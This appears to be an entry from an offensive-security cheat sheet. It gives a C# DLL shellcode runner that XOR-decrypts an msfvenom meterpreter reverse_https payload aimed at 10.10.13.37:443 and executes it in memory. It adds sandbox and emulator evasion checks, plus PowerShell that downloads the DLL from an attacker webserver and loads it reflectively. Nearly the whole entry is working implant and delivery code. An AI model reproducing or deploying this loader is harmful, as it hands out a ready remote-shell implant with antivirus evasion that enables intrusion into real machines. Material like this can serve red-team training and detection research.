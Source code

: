 ```yaml
---
description: |
  Shellrunner in managed DLL, with the below code you can create a DLL that hold an meterpreter shell. Host this DLL on your webserver and retrieve it via the second part of the code, which makes sure the DLL is directly loaded into the memory of the Windows machine.

  Command Reference:

  	byte[] buf: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a




command: |

    ```
    using System;
    using System.Runtime.InteropServices;

    namespace ShellcodeRunner
    {
        public class Program
        {
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

            [DllImport("kernel32.dll")]
            static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

            [DllImport("kernel32.dll")]
            static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

            [DllImport("kernel32.dll")]
            static extern void Sleep(uint dwMilliseconds);

            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

            [DllImport("kernel32.dll")]
            static extern IntPtr GetCurrentProcess();

            public static void Run()
            {
                // Check if we're in a sandbox by calling a rare-emulated API
                if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
                {
                    return;
                }

                // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
                var rand = new Random();
                uint dream = (uint)rand.Next(10000, 20000);
                double delta = dream / 1000 - 0.5;
                DateTime before = DateTime.Now;
                Sleep(dream);
                if (DateTime.Now.Subtract(before).TotalSeconds < delta)
                {
                    Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                    return;
                }

                // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
                byte[] buf = new byte[657] {0x9d,0x29,0xe2, [...]
                                ,0x9e,0xb4};

                // XOR-decrypt the shellcode
                for (int i = 0; i < buf.Length; i++)
                {
                    buf[i] = (byte)(buf[i] ^ (byte)'a');
                }

                IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
                Marshal.Copy(buf, 0, addr, buf.Length);
                IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
                WaitForSingleObject(hThread, 0xFFFFFFFF);
            }
        }
    }

    $data = (New-Object System.Net.WebClient).DownloadData('http://10.10.13.37/ShellcodeRunner.dll')

    $assem = [System.Reflection.Assembly]::Load($data)
    or (for local file)
    $assem = [System.Reflection.Assembly]::LoadFile("C:\user\documents\ClassLibrary1.dll")

    $class = $assem.GetType("ShellcodeRunner.Program")
    $method = $class.GetMethod("Run")
    $method.Invoke(0, $null)
    Or
    $a = [ShellcodeRunner.Program]::Run()
    ```

items:
    - Shell

services:
    - 
OS:
    - Windows
attack_types:
    - Lateral Movement
references:
    - https://medium.com/iostrap/how-to-transfer-files-between-servers-using-netcat-d8bc13eebea
    - https://linux.die.net/man/1/nc
--- 
```



